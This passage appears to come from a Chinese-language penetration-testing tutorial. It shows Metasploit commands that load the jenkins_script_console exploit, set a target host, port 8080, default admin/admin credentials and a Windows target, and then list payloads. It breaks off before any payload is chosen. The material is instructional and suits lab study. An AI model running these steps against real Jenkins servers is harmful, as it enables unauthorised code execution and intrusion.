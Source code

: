 ![](img/6fa513aa-0421-4b58-9913-1d1737280445.jpg)

我们看到了一些与 Jenkins 相关的模块。

1.  在这种情况下，我们将使用`jenkins_script_console`利用。发出以下命令：

```
use exploit/multi/http/jenkins_script_console
```

1.  让我们设置利用并配置我们的目标服务器。逐一发出以下命令：

```
set RHOSTS <<IP Address>>
set RPORT 8080
set USERNAME admin
set PASSWORD admin
set TARGETURI /
set target 0
```

`目标 0`表示这是一台 Windows 机器。

1.  要查看所有可用的有效载荷列表，请发出以下命令：

```
show payloads
```

列出所有有效载荷供我们审阅：

![](img/24bf09e8-22df-4bfd-8210-d987c81d7698.jpg)
